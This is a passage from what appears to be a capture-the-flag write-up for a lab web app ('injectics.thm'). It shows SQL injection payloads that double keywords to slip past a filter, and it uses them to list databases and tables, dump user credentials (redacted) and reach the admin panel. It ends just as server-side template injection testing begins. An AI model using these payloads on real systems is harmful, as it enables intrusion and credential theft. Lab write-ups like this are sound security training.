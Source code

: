 SImply duplicating some chars did the trick, with this query we are requesting the list of the databases:
```sql
rank=1&country=fuck&gold=11123, country=(selSELECTect group_concat(schema_name) FROM infoORrmation_schema.schemata)&silver=21&bronze=
```

This overwrite the table entry with:
```
mysql,information_schema,performance_schema,sys,phpmyadmin,bac_test
```

One database name looks odd: `bac_test` this require further investigation, let's see what it contains:
```sql
rank=1&country=fuck&gold=11123, country=(selSELECTect group_concat(table_name) from infoORrmation_schema.tables WHERE table_schema="bac_test")&silver=21&bronze=12345
```

2 tables appars: leaderboards and users, we are already seeing the first one and is not interesting, let's dump the users one to get the admin creds:
- We already know (by reading the email at the beginning) that the table contains the column "email" and "passowrd", so let's build the query:
```sql
rank=1&country=fuck&gold=11123, country=(selSELECTect group_concat("\n" , email, '\:' , passwoORrd, "\n") from bac_test.users)&silver=21&bronze=12345
```

This will also display results in a more readable way:
```
REDACTED_CREDENTIALS
```

Now we can use the credential to log in in the admin panel at:
```
http://injectics.thm/adminLogin007.php
```

Once logged in we land on the dashboard and we can see a flag:
--> REDACTED

Let's see if now with the admin rights we can read whats inside the `flags` directory:
```
http://injectics.thm/flags
```

Looks like we can't we still do not have the permissions to.

Exploiring the new dashboard we can see a `profile` button, clicking it we land on the `updata_profile.php` page, time to look for vulnerablities here.
Let's try to send an update request and capture it with Burp Suite Proxy, we can see the payload sent as a POST request:
```
email=superadmin%40injectics.thm&fname=admin&lname=test2
```

Here we can test 3 parameters, in my opinion the first one that might be interesting is the name as it is displayed on the dashboard, this means we might get the output of any injection there.
Now we need to find the vulnerability, after cycling through the most common types i landed on SSTI (Server Side Template Injection).
